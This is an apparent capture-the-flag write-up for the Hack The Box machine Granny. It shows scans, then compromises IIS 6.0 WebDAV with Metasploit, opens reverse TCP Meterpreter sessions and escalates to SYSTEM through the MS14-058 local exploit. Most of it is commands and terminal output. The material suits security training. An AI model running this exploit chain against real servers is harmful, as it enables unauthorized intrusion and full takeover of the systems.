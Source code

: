 ```yaml
---
layout: post
title: Grandpa/Granny (HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.14/15 

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.15</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-02-22 18:56 EST
<br>Nmap scan report for 10.10.10.15
<br>Host is up (0.17s latency).
<br>Not shown: 999 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Microsoft IIS httpd 6.0</font>
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
<br>|_http-server-header: Microsoft-IIS/6.0
<br>|_http-title: Under Construction
<br>| <font color="ffff00">http-webdav-scan</font>: 
<br>|   Server Type: Microsoft-IIS/6.0
<br>|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
<br>|   <font color="ffff00">WebDAV type</font>: Unkown
<br>|   Server Date: Thu, 22 Feb 2018 23:53:57 GMT
<br>|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose
<br>Running (JUST GUESSING): Microsoft Windows 2003|XP|2008 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_xp::sp2 <br>cpe:/o:microsoft:windows_server_2008::sp2
<br>Aggressive OS guesses: Microsoft Windows Server 2003 SP1 - SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows XP <br>SP2 or Windows Server 2003 SP2 (91%), Microsoft Windows Server 2003 R2 SP2 (88%), Microsoft Windows Server 2003 SP1 or R2 (88%), <br>Microsoft Windows 2003 SP2 (86%), Microsoft Windows Server 2003 SP1 or SP2 (86%), Microsoft Windows XP SP2 (86%), Microsoft Windows <br>2003 R2 (86%), Microsoft Windows Server 2003 (86%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   170.45 ms 10.10.14.1
<br>2   170.49 ms 10.10.10.15</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 38.06 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>Only port open is open and the web server is IIS httpd 6.0 and webdav is also available in which put method is allowed, and the webpage is also not available.

**Nikto**
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nikto -h 10.10.10.15
<br>- Nikto v2.1.6
<br>---------------------------------------------------------------------------
<br>+ Target IP:          10.10.10.15
<br>+ Target Hostname:    10.10.10.15
<br>+ Target Port:        80
<br>+ Start Time:         2018-02-22 19:01:01 (GMT-5)
<br>---------------------------------------------------------------------------
<br>+ Server: Microsoft-IIS/6.0
<br>+ Retrieved microsoftofficewebserver header: 5.0_Pub
<br>+ Retrieved x-powered-by header: ASP.NET
<br>+ The anti-clickjacking X-Frame-Options header is not present.
<br>+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
<br>+ Uncommon header 'microsoftofficewebserver' found, with contents: 5.0_Pub
<br>+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
<br>+ Retrieved x-aspnet-version header: 1.1.4322
<br>+ No CGI Directories found (use '-C all' to force check all possible dirs)
<br>+ OSVDB-397: HTTP method <font color="ffff00">'PUT'</font> allows clients to save files on the web server.
<br>+ OSVDB-5646: HTTP method 'DELETE' allows clients to delete files on the web server.
<br>+ Retrieved dasl header: <font color="ffff00"> DAV:sql </font>
<br>+ Retrieved dav header: 1, 2
<br>+ Retrieved ms-author-via header: MS-FP/4.0,DAV
<br>+ Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV
<br>+ Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
<br>+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
<br>+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
<br>+ OSVDB-5647: HTTP method ('Allow' Header): 'MOVE' may allow clients to change file locations on the web server.
<br>+ Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH 
<br>+ OSVDB-5646: HTTP method ('Public' Header): 'DELETE' may allow clients to remove files on the web server.
<br>+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
<br>+ OSVDB-5647: HTTP method ('Public' Header): 'MOVE' may allow clients to change file locations on the web server.
<br>+ WebDAV enabled (UNLOCK PROPPATCH COPY LOCK PROPFIND MKCOL SEARCH listed as allowed)
<br>+ OSVDB-13431: PROPFIND HTTP verb may show the server's internal IP address: http://granny/_vti_bin/_vti_aut/author.dll
<br>+ OSVDB-396: /_vti_bin/shtml.exe: Attackers may be able to crash FrontPage by requesting a DOS device, like shtml.exe/aux.htm -- a DoS was not attempted.
<br>+ OSVDB-3233: /postinfo.html: Microsoft FrontPage default file found.
<br>+ OSVDB-3233: /_vti_bin/shtml.exe/_vti_rpc: FrontPage may be installed.
<br>+ OSVDB-3233: /_private/: FrontPage directory found.
<br>+ OSVDB-3233: /_vti_bin/: FrontPage directory found.
<br>+ OSVDB-3233: /_vti_inf.html: FrontPage/SharePoint is installed and reveals its version number (check HTML source for more information).
<br>+ OSVDB-3300: /_vti_bin/: shtml.exe/shtml.dll is available remotely. Some versions of the Front Page ISAPI filter are vulnerable to a DOS (not attempted).
<br>+ OSVDB-3500: /_vti_bin/fpcount.exe: Frontpage counter CGI has been found. FP Server version 97 allows remote users to execute arbitrary system commands, though a vulnerability in this version could not be confirmed. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-1376. http://www.securityfocus.com/bid/2252.
<br>+ OSVDB-67: /_vti_bin/shtml.dll/_vti_rpc: The anonymous FrontPage user is revealed through a crafted POST</p>
</div>
</font>

<br>If you google about IIS 6.0 webdav you can find a BOF [exploit](https://www.exploit-db.com/exploits/41738/), and there is a msf module also available for this similar exploit which we are going to use.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf > use exploit/windows/iis/iis_webdav_scstoragepathfromurl
<br>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > show options </p>

<p>Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):</p>

<p>&nbsp;&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Current&nbsp;Setting&nbsp;&nbsp;Required&nbsp;&nbsp;Description
<br>&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;---------------&nbsp;&nbsp;--------&nbsp;&nbsp;-----------
<br>&nbsp;&nbsp;&nbsp;MAXPATHLENGTH&nbsp;&nbsp;60&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;End of physical path brute force
<br>&nbsp;&nbsp;&nbsp;MINPATHLENGTH&nbsp;&nbsp;3&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Start of physical path brute force
<br>&nbsp;&nbsp;&nbsp;Proxies&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;A proxy chain of format type:host:port[,type:host:port][...]
<br>&nbsp;&nbsp;&nbsp;RHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;The target address
<br>&nbsp;&nbsp;&nbsp;RPORT&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;80&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;The target port (TCP)
<br>&nbsp;&nbsp;&nbsp;SSL&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;false&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Negotiate SSL/TLS for outgoing connections
<br>&nbsp;&nbsp;&nbsp;TARGETURI&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;/&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Path of IIS 6 web application
<br>&nbsp;&nbsp;&nbsp;VHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;no&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;HTTP server virtual host</p>


<p>Exploit target:</p>

<p>&nbsp;&nbsp;&nbsp;Id&nbsp;&nbsp;Name
<br>&nbsp;&nbsp;&nbsp;--&nbsp;&nbsp;----
<br>&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;Microsoft Windows Server 2003 R2 SP2 x86</p>


<p>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > set RHOST 10.10.10.15
<br>RHOST => 10.10.10.15
<br>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4444 
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.15
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4444 -> 10.10.10.15:1031) at 2018-02-22 19:23:56 -0500</p>

<p>meterpreter > getuid
<br><font color="red">[-]</font> stdapi_sys_config_getuid: Operation failed: Access is denied.
<br>meterpreter > sysinfo
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;GRANNY
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;Windows .NET Server (Build 3790, Service Pack 2).
<br>Architecture&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;x86
<br>System Language&nbsp;:&nbsp;en_US
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;HTB
<br>Logged On Users&nbsp;:&nbsp;3
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:&nbsp;x86/windows
<br>meterpreter > </p>
</div>
</font>

<br>We got the session but our sehll has very low privilege not even a user privilege, So first we need to migrate to a process which have some decent privilege and then try to find an exploit using local exploit suggester to escalate our privilege to gain system or administrator level access.

**Privilege Escalation**

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>meterpreter > ps</p>

<p>Process List
<br>============</p>

<p>&nbsp;PID&nbsp;&nbsp;&nbsp;PPID&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Arch&nbsp;&nbsp;Session&nbsp;&nbsp;User&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Path
<br>&nbsp;---&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;-------&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----
<br>&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[System Process]                                               
<br>&nbsp;4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;System                                                         
<br>&nbsp;260&nbsp;&nbsp;&nbsp;4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;smss.exe                                                       
<br>&nbsp;316&nbsp;&nbsp;&nbsp;260&nbsp;&nbsp;&nbsp;csrss.exe                                                      
<br>&nbsp;340&nbsp;&nbsp;&nbsp;260&nbsp;&nbsp;&nbsp;winlogon.exe                                                   
<br>&nbsp;388&nbsp;&nbsp;&nbsp;340&nbsp;&nbsp;&nbsp;services.exe                                                   
<br>&nbsp;400&nbsp;&nbsp;&nbsp;340&nbsp;&nbsp;&nbsp;lsass.exe                                                      
<br>&nbsp;568&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;668&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;704&nbsp;&nbsp;&nbsp;1068&nbsp;&nbsp;cidaemon.exe                                                   
<br>&nbsp;728&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;756&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;792&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;928&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;spoolsv.exe                                                    
<br>&nbsp;952&nbsp;&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;msdtc.exe                                                      
<br>&nbsp;1068&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;cisvc.exe                                                      
<br>&nbsp;1112&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1160&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;inetinfo.exe                                                   
<br>&nbsp;1208&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1440&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1572&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;svchost.exe                                                    
<br>&nbsp;1668&nbsp;&nbsp;388&nbsp;&nbsp;&nbsp;alg.exe                                                        
<br>&nbsp;1772&nbsp;&nbsp;568&nbsp;&nbsp;&nbsp;wmiprvse.exe                                                   
<br>&nbsp;1932&nbsp;&nbsp;568&nbsp;&nbsp;&nbsp;davcdata.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NT AUTHORITY\NETWORK SERVICE&nbsp;&nbsp;C:\WINDOWS\system32\inetsrv\davcdata.exe
<br>&nbsp;2092&nbsp;&nbsp;1068&nbsp;&nbsp;cidaemon.exe                                                   
<br>&nbsp;2124&nbsp;&nbsp;1068&nbsp;&nbsp;cidaemon.exe                                                   
<br>&nbsp;2204&nbsp;&nbsp;340&nbsp;&nbsp;&nbsp;logon.scr                                                      
<br>&nbsp;3080&nbsp;&nbsp;1440&nbsp;&nbsp;w3wp.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;NT AUTHORITY\NETWORK SERVICE&nbsp;&nbsp;c:\windows\system32\inetsrv\w3wp.exe
<br>&nbsp;3172&nbsp;&nbsp;3080&nbsp;&nbsp;rundll32.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;C:\WINDOWS\system32\rundll32.exe</p>

<p>meterpreter > migrate 1932
<br><font color="RoyalBlue">[*]</font> Migrating from 3172 to 1932...
<br><font color="RoyalBlue">[*]</font> Migration completed successfully.
<br>meterpreter > getuid 
<br>Server username: NT AUTHORITY\NETWORK SERVICE
<br>meterpreter > </p>
</div>
</font>

<br>And we successfully migrated to NETWORK SERVICE and now we can run the local exploit suggester.

<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>meterpreter > background 
<br><font color="RoyalBlue">[*]</font> Backgrounding session 1...
<br>msf exploit(<font color="red">iis_webdav_scstoragepathfromurl</font>) > use post/multi/recon/local_exploit_suggester \r
<br>msf post(<font color="red">local_exploit_suggester</font>) > set SESSION 1
<br>SESSION => 1
<br>msf post(<font color="red">local_exploit_suggester</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> 10.10.10.15 - Collecting local exploits for x86/windows...
<br><font color="RoyalBlue">[*]</font> 10.10.10.15 - 37 exploit checks are being tried...
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
<br><font color="RoyalBlue">[*]</font> Post module execution completed
<br>msf post(<font color="red">local_exploit_suggester</font>) ></p>
</div>
</font>

<br>In Suggestion we got couple of exploits which we can use, lets try with the **ms14_058_track_popup_menu**

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf post(<font color="red">local_exploit_suggester</font>) > use exploit/windows/local/ms14_058_track_popup_menu 
<br>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > show options </p>

<p>Module options (exploit/windows/local/ms14_058_track_popup_menu):</p>

<p>&nbsp;&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Current&nbsp;Setting&nbsp;&nbsp;Required&nbsp;&nbsp;Description
<br>&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;---------------&nbsp;&nbsp;--------&nbsp;&nbsp;-----------
<br>&nbsp;&nbsp;&nbsp;SESSION&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;yes&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;The session to run this module on.</p>


<p>Exploit target:</p>

<p>&nbsp;&nbsp;&nbsp;Id&nbsp;&nbsp;Name
<br>&nbsp;&nbsp;&nbsp;--&nbsp;&nbsp;----
<br>&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;Windows x86</p>


<p>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > set SESSION 1
<br>SESSION => 1
<br>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > set LPORT 444
<br>LPORT => 444
<br>msf exploit(<font color="red">ms14_058_track_popup_menu</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:444 
<br><font color="RoyalBlue">[*]</font> Launching notepad to host the exploit...
<br><font color="53E100">[+]</font> Process 912 launched.
<br><font color="RoyalBlue">[*]</font> Reflectively injecting the exploit DLL into 912...
<br><font color="RoyalBlue">[*]</font> Injecting exploit into 912...
<br><font color="RoyalBlue">[*]</font> Exploit injected. Injecting payload into 912...
<br><font color="RoyalBlue">[*]</font> Payload injected. Executing exploit...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.15
<br><font color="53E100">[+]</font> Exploit finished, wait for (hopefully privileged) payload execution to complete.
<br><font color="RoyalBlue">[*]</font> Meterpreter session 2 opened (10.10.*.*:444 -> 10.10.10.15:1031) at 2018-02-22 20:21:02 -0500</p>

<p>meterpreter > getuid 
<br>Server username: NT AUTHORITY\SYSTEM
<br>meterpreter > shell
<br>Process 1660 created.
<br>Channel 1 created.
<br>Microsoft Windows [Version 5.2.3790]
<br>(C) Copyright 1985-2003 Microsoft Corp.</p>

<p>c:\windows\system32\inetsrv>
<br>..
<br>..
<br>C:\Documents and Settings\Lakis\Desktop>type user.txt
<br>type user.txt
<br><font color="53E100">********************************</font>
<br>C:\Documents and Settings\Lakis\Desktop>
<br>..
<br>..
<br>C:\Documents and Settings\Administrator\Desktop>type root.txt
<br>type root.txt
<br><font color="53E100">********************************</font>
<br>C:\Documents and Settings\Administrator\Desktop></p>

</div>
</font>

<script src="https://www.hackthebox.eu/badge/966"> </script>
<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)



